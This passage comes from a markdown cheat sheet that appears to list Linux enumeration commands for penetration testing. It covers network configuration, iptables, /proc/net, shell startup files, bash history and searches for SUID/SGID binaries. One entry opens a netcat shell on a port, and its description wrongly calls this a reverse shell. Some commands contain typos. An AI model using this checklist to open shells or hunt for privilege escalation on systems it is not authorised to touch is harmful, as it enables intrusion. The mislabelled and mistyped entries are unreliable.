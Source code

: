 |route -e|show / manipulate the IP routing table|
|iwconfig|configure a wireless network interface|
|cat /etc/resolv.conf|The resolver configuration file contains information that is read by the resolver routines the first time they are invoked by a process.  The file is designed to be human readable and contains a list of keywords with values that provide various types of resolver information. If this file does not exist, only the name server on the local machine will be queried; the domain name is determined from the hostname and the domain search path is constructed from the domain name.|
|cat /etc/hosts|**/etc/hosts** is a simple text file that associates IP addresses with hostnames, one line per IP address.|
|cat /etc/network/interfaces|**/etc/network/interfaces** file contains network interface configuration information.|
|cat /etc/sysconfig/network|**/etc/sysconfig/network** file is used to specify information about the desired network configuration on your server.|
|cat /etc/networks|**/etc/networks** is a plain ASCII file that describes known DARPA networks and symbolic names for these networks.|
|cat /proc/net/tcp|Print tcp info in hex mode|
|cat /proc/net/udp|Print udp info in hex mode|
|cat /proc/net/icmp|Print icmp info in hex mode|
|cat /proc/net/route|Print route info in hex mode|
|cat /etc/inetd.conf|inetd, called also the super server, will load a network program based upon a request from the network. The inetd.conf file tells inetd which ports to listen to and what server to start for each port.|
|cat /etc/xinetd.conf|xinetd.conf is the configuration file that determines the services provided by xinetd.|
|ls -R /etc/network/|Show files about network configuration|
|ls -al /etc/init.d|List all init scripts|
|iptables -L -t nat|Print rules of nat chain|
|iptables -L -t mangle|Print rules of mangle chain|
|tcpdump|tcpdump cheat sheet|
|nc -v `host` `port`|Make a tcp connection to host:port|
|nc -v -e /bin/sh -l -p `port`|Reverse a /bin/sh shell to localhost:port|

## File Systems

|**Command**|**Description**|
|:----------|:--------------|
|cat /etc/profile|/etc/profile contains Linux system wide environment and startup programs. It is used by all users with bash, ksh, sh shell.|
|cat /etc/bashrc|/etc/bashrc or /etc/bash.bashrc is the systemwide bash per-interactive-shell startup file. Is is used system wide functions and aliases. |
|cat ~/.bash_profile|similar to /etc/profile, but just for current user|
|car ~/.bash_history|Print current user bash commands history|
|cat ~/.bashrc|~/.bashrc is the individual per-interactive-shell startup file stored in your home directory $HOME.|
|car ~/.zshrc|~/.zshrc is the individual per-interactive-shell startup file stored in your home directory $HOME.|
|cat ~/.bash_logout|The file ~/.bash_logout is not used for an invocation of the shell. It is read and executed when a user exits from an interactive login shell.|
|ls -al /var/log/|List all logs files|
|find / -perm -1000 -type d 2>/dev/null | Sticky bit - Only the owner of the directory or the owner of a file can delete or rename here.|
|find / -perm -g=s -type f 2>/dev/null | SGID (chmod 2000) - run as the group, not the user who started it.|
|find / -perm -u=s -type f 2>/dev/null  | SUID (chmod 4000) - run as the owner, not the user who started it.|
|find / -perm -g=s -o -perm -u=s -type f 2>/dev/null | SGID or SUID|
|for i in `locate -r "bin$"`; do find $i \( -perm -4000 -o -perm -2000 \) -type f 2>/dev/null; done | Looks in 'common' places: /bin, /sbin, /usr/bin, /usr/sbin, /usr/local/bin, /usr/local/sbin and any other *bin, for SGID or SUID (Quicker search)|
|find / -perm -g=s -o -perm -4000 ! -type l -maxdepth 3 -exec ls -ld {} \; 2>/dev/null|find starting at root (/), SGID or SUID, not Symbolic links, only 3 folders deep, list with more detail and hide any errors (e.g. permission denied)|